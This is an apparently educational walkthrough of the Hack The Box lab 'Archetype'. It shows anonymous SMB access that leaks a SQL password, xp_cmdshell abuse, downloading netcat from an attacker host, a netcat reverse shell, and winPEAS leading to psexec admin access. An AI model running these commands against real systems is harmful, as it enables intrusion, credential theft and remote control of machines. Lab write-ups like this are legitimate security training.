 # Archetype

## Nmap & Footprinting

- Run an nmap scan to collect IP, OS, version, scripts, and trace route information
	* `sudo nmap -sV -sC -oA ./nmap/archetype 10.129.181.76`
- TCP port that is hosting the database is port `1433`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/nmap_scan.png)

## SMB Shares

- Run smbclient command to view smb shares
	* `smbclient -N -L \\\\10.129.16.28\\`
	* Name of the non-administrative share available over SMB is `backups`we can tell this is the non-administrative share because all administrative shares are marked with `$`.

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/sharename.png)

- Access the SMB share "backups" to obtain username and password:
	* `smbclient -N \\\\10.129.16.28\\backups`
	* `ls`
	* `get prod.dtsconfig`
	* `exit`
	* `echo "M3g4c0rp123;User ID=ARCHETYPE\sql_svc" > user.txt`

- The password identified in the SMB share is `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/user_password.png)

## MS SQL Client

- `Mssqlclient.py` script from impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server. Since the credentials for the share has been acquired, locate and access MS SQL Client:
	* `locate mssqlclient`
	* `/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.16.28 -windows-auth`
	* Password: `M3g4c0rp123`

![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/accessing_mssqlclient.png)

## XP Command Shell

- `Xp_cmdshell` extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell. Enable the xp_cmdshell, upload an Netcat listener and a reverse shell to establish a direct command line access.
	* `help`
	* `enable xp_cmdshell`
	* `RECONFIGURE`
	* Confirm the command shell is enabled with: `xp_cmdshell "whoami"`
## Netcat

* Locate the "nc.exe" file on machine, if not installed, it will need to be installed.
* In a separate terminal in Kali navigate to the directory where the "nc.exe" is and run: `sudo python3 -m http.server 80`
	* Go back to xp_cmdshell and download "nc.exe" from local machine to target `xp_cmdshell powershell -c cd c:\Users\sql_svc\Downloads\; wget http://10.10.16.233/nc.exe -outfile nc.exe`
	* The Netcat was downloaded to the target successfully after receiving the "200" status response code.
* Open another terminal in Kali and navigate to the directory above and and run `nc -lvnp 4444`
	* Execute `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.233 4444`

	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/xp_cmdshell_netcat.png)

	* Navigate to the directory that contains Flag1
		
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/flag.txt.png)

## winPEAS

* `WinPEAS script` can be used in order to search possible paths to escalate privileges on Windows hosts. Since there is no access to the Admin directory, winPEAS will be used to acquire the admin credentials.
	* Enter `powershell` 
	* `wget http://10.10.16.233/winPEASx64.exe -outfile winPEAS.exe`
	* Run `.\winPEAS.exe`
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/winpeas.png)

	* `ConsoleHost_history.txt` contains the admin password. Locate the Administrative credentials, copy and paste credentials into Kali.
	* In Kali, enter `locate psexec`
	* Enter `/usr/bin/impacket-psexec administrator@10.129.181.76`
	* Enter password 
	* Locate the root flag
			
	![Diagram](https://github.com/aele1401/HacktheBox/blob/main/Archetype/Images/root.txt.png)

Tags: Networks, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access 
